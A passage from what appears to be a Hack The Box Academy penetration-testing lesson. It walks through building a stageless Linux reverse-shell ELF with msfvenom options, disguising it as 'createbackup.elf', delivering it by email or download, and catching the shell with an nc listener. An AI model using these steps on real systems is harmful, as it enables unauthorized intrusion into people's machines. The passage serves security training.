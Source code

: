 <pre><code class="language-shell-session">linux/x64/shell_reverse_tcp 
</code></pre>
<p>Specifies a <code>Linux</code> <code>64-bit</code> stageless payload that will initiate a TCP-based reverse shell (<code>shell_reverse_tcp</code>).</p>
<h4>Address To Connect Back To</h4>
<pre><code class="language-shell-session">LHOST=10.10.14.113 LPORT=443 
</code></pre>
<p>When executed, the payload will call back to the specified IP address (<code>10.10.14.113</code>) on the specified port (<code>443</code>).</p>
<h4>Format To Generate Payload In</h4>
<pre><code class="language-shell-session">-f elf 
</code></pre>
<p>The <code>-f</code> flag specifies the format the generated binary will be in. In this case, it will be an <a href="https://en.wikipedia.org/wiki/Executable_and_Linkable_Format">.elf file</a>.</p>
<h4>Output</h4>
<pre><code class="language-shell-session">&gt; createbackup.elf
</code></pre>
<p>Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.</p>
<hr/>
<h2>Executing a Stageless Payload</h2>
<p>At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system. There are countless ways this can be done. Here are just some of the common ways:</p>
<ul>
<li>Email message with the file attached.</li>
<li>Download link on a website.</li>
<li>Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).</li>
<li>Via flash drive as part of an onsite penetration test.</li>
</ul>
<p>Once the file is on that system, it will also need to be executed.</p>
<p>Imagine for a moment: the target machine is an Ubuntu box that an IT admin uses to manage network devices (hosting configuration scripts, accessing routers &amp; switches, etc.). We could get them to click the file in an email we sent because they were carelessly using this system as if it was a personal computer or workstation.</p>
<h4>Ubuntu Payload</h4>
<p><img alt="File explorer showing 'createbackup.elf' in the Downloads folder on a Linux system." src="https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png"/></p>
<p>We would have a listener ready to catch the connection on the attack box side upon successful execution.</p>
<h4>NC Connection</h4>
<pre><code class="language-shell-session">[!bash!]$ sudo nc -lvnp 443
</code></pre>
<p>When the file is executed, we see that we have caught a shell.</p>
<h4>Connection Established</h4>
<pre><code class="language-shell-session">[!bash!]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
</code></pre>